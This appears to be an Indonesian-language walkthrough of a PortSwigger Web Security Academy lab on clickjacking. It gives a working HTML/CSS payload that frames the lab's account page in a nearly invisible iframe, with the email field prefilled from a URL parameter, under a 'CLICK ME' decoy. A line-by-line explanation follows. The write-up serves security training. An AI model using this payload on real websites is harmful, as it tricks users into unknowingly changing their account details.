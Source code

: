 # Clickjacking dengan Data Input Form yang Diisi Awal dari Parameter URL

Lab ini memperluas contoh clickjacking dasar dalam Lab: Clickjacking Dasar dengan Perlindungan Token CSRF. Tujuan dari lab ini adalah untuk mengubah alamat email pengguna dengan mengisi form secara otomatis menggunakan parameter URL dan menggoda pengguna agar tanpa sadar mengklik tombol "Update email".

Untuk menyelesaikan lab ini, buatlah beberapa HTML yang membingkai halaman akun dan menipu pengguna agar memperbarui alamat email mereka dengan mengklik penjebak "Click me". Lab dianggap selesai ketika alamat email berhasil diubah.

Anda dapat masuk ke akun Anda sendiri menggunakan kredensial berikut:  
**Username:** wiener  
**Password:** peter

**Catatan:** Korban akan menggunakan Chrome, jadi pastikan untuk menguji exploit Anda di browser tersebut.

**Hint:** Anda tidak dapat mendaftarkan alamat email yang sudah digunakan oleh pengguna lain. Jika Anda mengubah alamat email Anda sendiri saat menguji exploit, pastikan Anda menggunakan alamat email yang berbeda untuk exploit akhir yang Anda berikan kepada korban.

---------------------------------------------

Referensi:

- [Clickjacking - PortSwigger](https://portswigger.net/web-security/clickjacking)

![img](images/Clickjacking%20with%20form%20input%20data%20prefilled%20from%20a%20URL%20parameter/1.png)

---------------------------------------------

Jika profil pengguna diakses dengan parameter “email”, field email akan terisi otomatis:

![img](images/Clickjacking%20with%20form%20input%20data%20prefilled%20from%20a%20URL%20parameter/2.png)

Jadi, kita dapat mengeksekusi serangan dengan payload seperti ini:

```html
<style>
    iframe {
        position: relative;
        width: 1000px;
        height: 700px;
        opacity: 0.00001;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 470px;
        left: 60px;
        z-index: 1;
    }
</style>
<div>CLICK ME</div>
<iframe id="target_website" src="https://0a670017049ae2c9957a123800ec0089.web-security-academy.net/my-account?email=test@test.com">
</iframe>
```

![img](images/Clickjacking%20with%20form%20input%20data%20prefilled%20from%20a%20URL%20parameter/3.png)

**Penjelasan:**

1. **Style CSS:**  
   - Mengatur iframe agar memiliki ukuran yang besar dan hampir tidak terlihat dengan `opacity: 0.00001;`.
   - Menetapkan `z-index` untuk memastikan iframe berada di atas elemen lain.
   - Mengatur posisi tombol "CLICK ME" agar berada di tempat yang strategis sehingga pengguna tanpa sadar mengklik iframe yang tersembunyi.

2. **Div "CLICK ME":**  
   - Elemen ini berfungsi sebagai umpan untuk menarik perhatian pengguna agar mengkliknya, yang sebenarnya akan mengklik tombol "Update email" di dalam iframe tersembunyi.

3. **Iframe:**  
   - Memuat halaman akun target dengan parameter `email=test@test.com`, yang akan mengubah alamat email pengguna jika form tersebut dikirimkan.
   - Karena iframe hampir tidak terlihat, pengguna tidak menyadari bahwa mereka sebenarnya sedang berinteraksi dengan form yang dapat mengubah data mereka.

Dengan teknik ini, pengguna yang mengunjungi halaman yang berisi payload ini akan secara tidak sadar mengubah alamat email mereka karena mereka mengklik "CLICK ME" yang secara tidak sengaja mengklik tombol "Update email" di dalam iframe tersembunyi.
